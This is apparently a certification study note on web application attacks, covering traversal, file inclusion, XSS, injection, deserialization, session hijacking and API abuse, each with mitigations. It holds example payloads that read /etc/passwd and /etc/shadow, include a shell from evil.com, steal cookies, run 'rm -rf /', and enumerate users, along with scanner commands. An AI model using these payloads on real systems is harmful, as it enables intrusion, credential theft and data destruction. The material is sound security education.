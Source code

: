 
### Overview
- **Focus:** Tools & techniques for exploiting web applications.  
- **Importance:** Steal data, perform unauthorized actions, disrupt services.  
- **Domain:** Domain 4 – Attacks & Exploits.

### Lessons Overview
- **Directory Traversals** & **File Inclusions**  
- **Cross-Site Scripting (XSS)**  
- **Request Forgeries (CSRF & SSRF)**  
- **SQL Injection**  
- **Other Injections** (Command, SSTI, XML)  
- **Arbitrary Code Execution**  
- **Session Hijacking**  
- **API Abuse**  
- **Tools Demos:** Gobuster, DirBuster, WPScan, Burp Suite, sqlmap, Postman, OWASP ZAP

---

### Directory Traversals
- **Definition:** Use `../` (or `%2E%2E%2F`) to navigate above web root.  
- **Web Root:** Typically `/var/www` on Linux.  
- **Attack Process:**  
  - Inject traversal sequences to access files like `../../etc/shadow`.  
  - Encode characters to bypass filters.  
- **Prevention:**  
  - Sanitize/validate inputs; remove `../`.  
  - Restrict file access to web root.  

### File Inclusion
- **RFI (Remote File Inclusion):**  
  - Includes external URLs (e.g. `?file=http://evil.com/shell.php`).  
- **LFI (Local File Inclusion):**  
  - Includes local files via traversal (e.g. `?file=../../etc/passwd%00`).  
	  - the `%00` is the null character to end
- **Mitigation:** Whitelist valid paths; validate inputs; disable null-byte bypass.

### Directory Traversal Tools
- **Gobuster:** Fast CLI brute-forcing  
  ```bash
	  gobuster dir -u http://192.168.1.10 -w <wordlist>
	```
- **DirBuster:** Java-based recursive enumeration
- **WPScan:** WordPress-specific scanner
    ```bash
    wpscan --url www.vulnerablewp.com --enumerate u
    ```

---

### Cross-Site Scripting (XSS)

- **Definition:** Inject malicious scripts into trusted sites.
- **Attack Flow:**
    1. Identify input flaw.
    2. Craft malicious URL/payload.
    3. Execute in victim’s browser.
- **Types:**
    - **Reflected:** payload in URL, one-time aka non-persistent
    - **Stored:** saved in backend, persistent.
    - **DOM-Based:** manipulation via `document.*`.
	    - **Example**: `https://url.com/index.html#default=<script>alert(document.cookie)</script>`
- **Impact:** Defacement, cookie theft, form hijacking, malware installation.
- **Prevention:** Input validation, output encoding, **Content Security Policy (CSP)**.

---

### Request Forgeries

- **CSRF (Cross-Site Request Forgery):**
    - Trick authenticated users to perform unwanted actions.
    - **Mitigations:** Anti-CSRF tokens, **SameSite** cookies, re-auth for critical ops.

- **SSRF (Server-Side Request Forgery):**
    - Coerce server to access internal resources (e.g. AWS metadata).
    - **Mitigations:** Input validation, domain whitelists, network segmentation.

---

### SQL Injection

- **Definition:** Inject SQL to manipulate queries (SELECT, INSERT, UPDATE, DELETE).
- **Example:** `OR 1=1` bypasses login.
- **Indicators:** Unescaped `'`, `OR 1=1`, injected logic.
- **Prevention:** Parameterized queries, input sanitization, **WAF**.

---

### Injection Attacks

- **Command Injection:**
    - Execute OS commands via unsanitized inputs (e.g. `; rm -rf /`).
    - **Prevention:** Validate inputs, avoid shell calls.
- **SSTI (Server-Side Template Injection):**
    - Unescaped template expressions (e.g. Jinja2 `{{7*7}}`).
    - **Prevention:** Auto-escaping templates, input validation.
- **XML Injection (XXE):**
    - External entities to read files (e.g. `<!ENTITY xxe SYSTEM "file:///etc/passwd">`).
    - **Prevention:** Disable external entities, schema validation.

---

### Arbitrary Code Execution

- **Deserialization Attacks:** Malicious objects in serialized data.
	- Serialized data:
		```
		{
			"order": {
				"product": "item"
				"setorderid": "os.system('ls /etc/shadow')"
			}
		}
		```
- **Web Shells:** File upload or code execution flaws to deploy interactive shells.
- **Prevention:** Avoid deserializing untrusted data, strict upload validation, restrict executable permissions, deploy **WAF**.

---

### Web Session Hijacking

- **SID (Session ID):** Cookie for user authentication.
- **Methods:**
    - **Session Fixation:** Pre-set SID before login.
    - **Session Replay:** MITM capture & reuse.
    - **XSS Theft:** Steal cookie via script.
    - **Social Engineering:** Phishing tokens.
- **Mitigations:** Regenerate SID on login, **HTTPS**, Secure & **HttpOnly** flags, session timeouts, re-auth for sensitive actions, log monitoring.

---

### API Abuse

- **Definition:** Misuse of API endpoints beyond intended use.
- **Examples:** Data scraping (Cambridge Analytica), JWT tampering.
- **Tools:** Postman, Burp Suite.
- **JWT Risks:**
    - Structure: Header, Payload (claims), Signature.
    - Weak algos (CVE-2015-2951), claim mutation.
- **Mitigations:** Strong algos (HS256/RS256), signature validation, short TTLs, key rotation.

---

### OWASP ZAP

- **Purpose:** Open-source web app scanner & proxy.
- **Core Features:** Intercept, inspect, manipulate traffic.
- **Scan Modes:**
    - **Passive:** Header/SSL checks without payloads.
    - **Active:** Inject payloads (SQLi, XSS).
- **Usage:**
    - **Automated Scan:** URL spider + scan.
    - **Manual Explore:** Record authenticated flows.
    - **HUD:** In-browser real-time alerts.
- **Integration:** CI pipelines for continuous scanning.
- **Customization:** Scripting & plugins for advanced tests.